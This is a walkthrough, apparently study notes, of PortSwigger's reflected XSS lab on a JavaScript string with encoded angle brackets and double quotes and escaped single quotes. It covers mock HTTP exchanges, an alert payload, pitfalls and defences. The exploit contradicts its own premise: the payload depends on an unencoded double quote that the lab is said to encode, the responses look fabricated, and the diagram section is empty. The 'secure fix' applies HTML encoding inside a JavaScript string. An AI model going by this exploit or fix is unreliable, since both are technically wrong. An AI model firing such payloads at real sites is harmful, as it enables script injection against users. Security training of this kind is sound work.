

## Detailed Walkthrough of the Lab

### Accessing the Lab

To access the lab, follow these steps:

1. Visit the URL `https://portswigger.net/web-security`.
2. Click on the "Sign Up" button to create an account.
3. Log in to your account.
4. Navigate to the "Academy" section.
5. Select "All Labs".
6. Search for "cross-site scripting labs".
7. Find and open Lab No. 22 titled "Reflected XSS into a JavaScript string with angle brackets and double quotes HTML encoded and single quotes escaped".

### Analyzing the Vulnerability

Once you are in the lab environment, you will see a search box where you can input a search query. The input is reflected in a JavaScript string, and the goal is to inject a script that calls the `alert` function.

#### HTTP Request and Response

Let's analyze the HTTP request and response to understand how the input is processed.

**HTTP Request:**

```http
GET /search?search=test HTTP/1.1
Host: vulnerable-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Date: Mon, 15 Aug 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <script>
        var userInput = "test";
        alert(userInput);
    </script>
</body>
</html>
```

### Crafting the Exploit

To exploit this vulnerability, we need to craft an input that breaks out of the string context and executes the `alert` function.

#### Step-by-Step Exploit

1. **Identify the Encoding Mechanisms**: Understand how the input is encoded. In this case, angle brackets and double quotes are HTML-encoded, and single quotes are escaped.
2. **Craft the Input**: Use a combination of encoding and escaping to bypass the protections.

**Example Input:**

```http
GET /search?search=%22%2balert(%27XSS%27)%2b%22 HTTP/1.1
Host: vulnerable-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Date: Mon, 15 Aug 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <script>
        var userInput = "" + alert('XSS') + "";
        alert(userInput);
    </script>
</body>
</html>
```

### Diagramming the Attack Chain

We can visualize the attack chain using a mermaid diagram:



### Common Pitfalls and Mistakes

When attempting to exploit this vulnerability, some common pitfalls include:

- Incorrectly encoding characters, leading to syntax errors.
- Not accounting for additional protections such as Content Security Policy (CSP).
- Overlooking the need to break out of the string context.

### How to Prevent / Defend

#### Detection

To detect XSS vulnerabilities, you can use automated tools such as:

- **Burp Suite**: Scan for XSS vulnerabilities using the Intruder and Scanner features.
- **OWASP ZAP**: Use the active scanner to identify potential XSS vulnerabilities.

#### Prevention

To prevent XSS vulnerabilities, follow these best practices:

1. **Input Sanitization**: Ensure that all user inputs are properly sanitized and validated.
2. **Output Encoding**: Encode all user inputs before reflecting them in the HTML or JavaScript context.
3. **Content Security Policy (CSP)**: Implement CSP to restrict the sources of executable scripts.
4. **Secure Coding Practices**: Follow secure coding guidelines to avoid common pitfalls.

#### Secure Code Fix

**Vulnerable Code:**

```javascript
var userInput = "<%= request.getParameter('search') %>";
alert(userInput);
```

**Fixed Code:**

```javascript
var userInput = "<%= request.getParameter('search').replace(/</g, '&lt;').replace(/>/g, '&gt;').replace(/"/g, '&quot;').replace(/'/g, '&#39;') %>";
alert(userInput);
```

### Hands-On Practice

To practice this vulnerability, you can use the following labs:

- **PortSwigger Web Security Academy**: Lab No. 22 "Reflected XSS into a JavaScript string with angle brackets and double quotes HTML encoded and single quotes escaped".
- **OWASP Juice Shop**: Explore the XSS challenges in the Juice Shop.
- **DVWA**: Use the Damn Vulnerable Web Application to practice XSS exploitation.

By thoroughly understanding and practicing these concepts, you can become proficient in identifying and mitigating XSS vulnerabilities in web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/23-Lab 22 Reflected XSS into a JavaScript string with angle brackets and double quotes HTML encoded and single quotes escaped/01-Introduction to Cross-Site Scripting (XSS)|Introduction to Cross-Site Scripting (XSS)]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/23-Lab 22 Reflected XSS into a JavaScript string with angle brackets and double quotes HTML encoded and single quotes escaped/00-Overview|Overview]] | [[03-Exploiting Reflected XSS with Encoded Characters|Exploiting Reflected XSS with Encoded Characters]]
